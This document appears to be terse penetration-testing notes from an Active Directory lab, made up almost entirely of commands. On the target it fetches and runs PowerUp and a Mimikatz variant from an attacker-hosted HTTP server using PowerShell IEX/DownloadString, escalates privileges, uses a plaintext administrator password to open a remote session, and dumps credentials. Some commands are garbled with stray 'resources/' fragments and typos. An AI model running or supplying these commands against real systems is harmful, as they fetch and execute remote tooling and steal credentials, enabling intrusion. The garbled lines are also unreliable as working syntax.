

# Exploitation

## Privilege Escalation

### CLient side
```
powershell
```
```
cd Z:\
``` 
```
python.exe -m http.server 8989
```

### Server side 

```
whooami
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\worker01\Documents> IEX (resources/New-Object net.webclient).DownloadString(resources/"http://192.168.241.133:8989/Powerup.ps1")
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\worker01\Documents> Invoke-AllChecks -Verbose
```

## Dump Credentials
```
exit
```
```
PS C:\Windows\system32> Enter-PSSession -ComputerName winserv2019forest.ad.forest.corp -Credential Administrador
# Passw0rd1!
```
```
[winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> whoami
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> IEX (resources/New-Object net.webclient).DownloadString(resources/"http://192.168.241.133:8989/Invoke-Mimi.ps1")
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> Invoke-Mimi -DumpCreds
```


